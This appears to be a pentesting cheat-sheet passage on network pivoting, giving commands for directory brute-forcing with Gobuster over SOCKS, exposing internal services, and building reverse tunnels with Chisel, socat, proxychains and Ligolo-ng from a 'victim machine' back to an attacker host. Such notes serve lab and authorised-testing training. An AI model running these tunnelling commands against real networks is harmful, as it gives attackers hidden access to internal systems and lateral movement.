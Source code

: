 ### Using Gobuster Through SOCKS:
```bash 
gobuster dir -u http://10.0.2.6 -w /usr/share/wordlists/dirb/big.txt --proxy socks5://127.0.0.1:1080
```

### Exposing Internal Services:
```bash 
chisel client 10.10.14.6:9000 R:9631:localhost:631
ssh -g -L 0.0.0.0:8081:localhost:8080 user@localhost
```

## CHISEL FOR PIVOTING (Dynamic SOCKS Mode)
---
If the victim machine can access additional hosts:

1. Start Chisel on the victim machine:
   ```bash 
   chisel client <PREVIOUS_MACHINE_IP>:2322 R:8888:socks
   ```

2. On the previous machine, activate Socat to forward traffic:
   ```bash 
   ./socat TCP-LISTEN:2322,fork TCP:<CHISEL_CLIENT_IP>:8000
   ```

3. Update `/etc/proxychains4.conf`:
   ```bash 
   dynamic_chain
   socks5 127.0.0.1 8888
   ```

## LIGOLO FOR PIVOTING
---
Download Ligolo from the official repository <a href="https://github.com/nicocha30/ligolo-ng/releases" target="_blank">here</a>

### Setup for Attacker and Third Machine

1. Create a new network interface:
   ```bash 
   sudo ip tuntap add user $USER mode tun ligolo
   ```
2. Bring up the interface:
   ```bash 
   sudo ip link set ligolo up
   ```
3. Add a route:
   ```bash 
   sudo ip route add 10.0.2.0/24 dev ligolo
   ```
4. Start the Ligolo proxy:
   ```bash 
   ./proxy -selfcert
   ```
5. Transfer and run the Ligolo agent on the victim machine:
   ```bash 
   ./agent -connect <ATTACKER_IP>:<PROXY_PORT> -ignore-cert
   ```
6. Establish the session from the proxy and type `start` to begin routing.
